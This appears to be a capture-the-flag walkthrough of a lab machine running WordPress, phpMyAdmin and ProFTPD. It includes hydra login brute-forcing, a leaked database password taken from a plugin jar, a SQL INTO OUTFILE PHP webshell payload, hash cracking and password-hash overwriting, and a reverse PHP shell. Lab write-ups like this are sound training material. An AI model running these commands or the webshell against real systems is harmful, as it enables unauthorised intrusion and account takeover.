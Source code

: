 # Solution

Start with a nmap scan as usual
```
nmap -sC -sV -oN nmap-initial 10.10.10.37
```

We have a wordpress website. We use wpscan to enumerate.  
We run gobuster in background to scan for directories.  
We go in the wordpress login page and try to enumerate the users using hydra. While the enumeration is running, we focus on other services.  
```
hydra -L /usr/share/wordlists/rockyou.txt -p password 10.10.10.37 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&redirect_to=http%3A%2F%2F10.10.10.37%2Fwp-admin%2F&wp-submit=Log In&testcookie=1:invalid username'
```
---
We see that openssh 7.2p2 is vulnerable to username enumeration. We take the script and run it. The time analysis in not reliable in my host machine. Too many false positives.
---
We focus the attention on the profptd service. Version 1.3.5 has vulnerabilities, it allows unauthenticated users to use SITE CPFR and SITE CPTO. Metasploit offers exploit to it as well as Exploit DB. First we try to see if it is actually vulnerable:
```
ftp 10.10.10.37
```
We log in with random credentials.  
Surprisingly when we try to use the CPFR command we are required to be authenticated.
```
ftp> site cpfr /etc/passwd
530 Please login with USER and PASS
```
Therefore it seems that it is not vulnerable.
---  
We switch our focus on the webserver.  Hydra hasn't found anything interesting. 

Run nikto
```
nikto -host 10.10.10.37 -output nikto.txt
```

We run gobuster and we find some directories:
```
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

We browse some of them. In plugins we find 2 .jar archives. We download them and we focus on BlockyCore.jar.
We extract it and we find a .class file. We can see the human readable characters in the .class file:
```
> strings BlockyCore.class
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```
We have an interesting hex string: 8YsqfCTnvxAUeduzjNSXe22.  
We try to use it in the ssh login with the root user but it doesn't work. We try in the wordpress login page but it doesn't work as well.  
We try in the phpmyadmin page with root username and it works. We are inside the phpmyadmin panel.

Now we want to get access to the underlying OS. We first try using SQL by uploading a file with a backdoor.
```
SELECT '<?php system($_GET["cmd"]);?>' into outfile "/var/www/shell.php";
```
However we get this error
```
The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```
which means that cannot write to that location. We want to figure out if we have write access on some directories. We can do this by looking at the value of the option "secure_file_priv"
```
SHOW VARIABLES LIKE "secure_file_priv" 
```
The value returned is /var/lib/mysql-files/ . Therefore we know that we can write to the directory /var/lib/mysql-files/.   
We change the command to inject in the file since the file will not be visible in the web browser. We run the following test to see if we can potentially inject a backdoor (10.10.14.25 is the address of my local machine):  
```
SELECT 'ping -c 1 10.10.14.25' into outfile "/var/lib/mysql-files/ping.sh"
```
We will use the LOAD DATA INFILE command to try to execute the script.  
We can set up tcpdump locally and check whether the ping is working.
```
tcpdump -i tun0 'icmp or icmp6'
```

Now we can try to start the ping.
```
LOAD DATA INFILE('/var/lib/mysql-files/ping.sh')
```
We don't receive answer.  
I try another way. From phpmyadmin we can see that one of the user is 'notch'. We also have the hash of his password. In background we set up the password bruteforce using wpscan:
```
wpscan --url http://10.10.10.37 -U notch -P /usr/share/wordlists/rockyou.txt
```

And we also look for the hash crack. The hash is
```
$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
We can use hashcat to crack it. The hash is a portable php hash. We have to find the right mode in hashcat. We can do it in the following way:
```
>hashcat --example-hashes | grep -A 2 -B 2 php

MODE: 400
TYPE: phpass
HASH: $P$946647711V1klyitUYhtB8Yw5DMA/w.
PASS: hashcat
```
We see hat the hash format actually matches. We now know that the mode is 400.  
We can proceed to crack it. We go for 
```
hashcat -m 400 -a 0 hash.txt  /usr/share/wordlists/rockyou.txt
```
Meanwhile we can try to change the password with a hash generated by us and see if we can actually log in ( we leave hashcat working, hoping that the we can retrieve the notch ssh password once the hash got cracked).  
We take the string "ciao" and we hash it using portable php hash and we get the hash :
```
$P$BthUuP2pHNnXtMpSjXC2PkhuraA1/J/
```
Now we can go in phpmyadmin and change the password for the user 'notch'. Then we can go in the login page of wordpress and try to login using username 'notch' and password 'ciao'.  
It works, we can enter the wordpress portal.  

We want to execute php from wordpress. We install the plugin PHP code snippet. Thanks to that we can add php to our pages. We can get a shell by uploading the pentestmonkey reverse PHP shell.  
We have now a shell, it runs under the user www-data.  
We import a bash shell with python:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We transfer and run LinPeas and LinEnum, execute them and study the results to find a way to escalate the privileges.  

---

Looking back at hashcat, we couldn't crack the hash. We try again to SSH into the box using root and 8YsqfCTnvxAUeduzjNSXe22, doubtfull whether We've already tried it or not (Yes we did). This time we also tried with the notch user and the same password. We had no expectations but it actually worked ... We could have solved the box at least some hours before... 

